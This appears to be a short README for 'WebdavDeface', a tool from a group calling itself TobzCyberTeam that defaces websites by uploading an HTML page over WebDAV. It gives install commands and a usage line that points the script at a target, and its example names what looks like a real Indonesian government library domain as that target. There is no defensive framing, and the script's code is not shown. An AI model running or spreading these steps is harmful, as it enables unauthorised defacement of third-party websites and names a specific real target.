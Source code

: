 # WebdavDeface
# By TobzCyberTeam
# Owner : Tobz

# How To Deface ??
# pkg install python2 -y
# pkg install git -y
# pip2 install requests
# pip2 install string
# git clone https://github.com/TobzCyberTeam/WebdavDeface
# cd WebdavDeface
# python2 webdav.py target.com Deface.html

# Contoh : 
# python2 webdav.py http://inlislite.perpusnas.go.id Deface.html
